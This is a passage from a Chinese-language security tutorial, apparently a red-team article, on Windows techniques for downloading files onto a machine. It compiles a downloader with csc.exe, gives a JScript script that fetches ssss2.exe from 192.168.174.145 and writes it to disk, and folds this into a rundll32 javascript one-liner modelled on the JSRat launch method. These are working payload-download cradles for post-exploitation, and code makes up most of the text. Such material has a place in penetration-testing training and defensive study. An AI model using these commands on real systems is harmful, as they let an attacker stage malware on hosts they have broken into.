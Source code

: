 使用echo将代码依次写入文件download.cs中，然后调用csc.exe编译cs文件

执行

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /out:C:\tes
t\update\download.exe C:\test\update\download.cs

```

如图成功生成download.exe

![Alt text](http://drops.javaweb.org/uploads/images/89f9378f1e879557a6b75e8ae69572a40b337528.jpg)

**注：**  
csc.exe的绝对路径要根据系统的.net版本来确定

### 6、JScript

相比于JSRat中用的`Scripting.FileSystemObject`

换用`ADODB.Stream`实现起来更加简单高效

以下代码依次保存为js文件，直接执行即可实现下载文件

```
var Object = WScript.CreateObject("MSXML2.XMLHTTP");
Object.open("GET","http://192.168.174.145/ssss2.exe",false);
Object.send();
if (Object.Status == 200)
{
    var Stream = WScript.CreateObject("ADODB.Stream");
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.SaveToFile("C:\\test\\update\\ssss2.exe", 2);
    Stream.Close();
}

```

合并成rundll32的一句话（类似于JSRat的启动方式）：

cmd：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();Object=new%20ActiveXObject("Microsoft.XMLHTTP");Object.open("GET","http://192.168.174.145/ssss2.exe",false);Object.send();if(Object.Status==200){Stream=new%20ActiveXObject("ADODB.Stream");Stream.Open();Stream.Type=1;Stream.Write(Object.ResponseBody);Stream.SaveToFile("C:\\test\\update\\ssss2.exe",2);Stream.Close();}

```

执行后会提示没有权限，很有趣的地方，更多的细节会在以后的文章介绍

![Alt text](http://drops.javaweb.org/uploads/images/a4704b23377475130c52fac6f1af8e052418d31a.jpg)

![Alt text](http://drops.javaweb.org/uploads/images/99676797191deaf0795dae3be783fe148a65af5f.jpg)
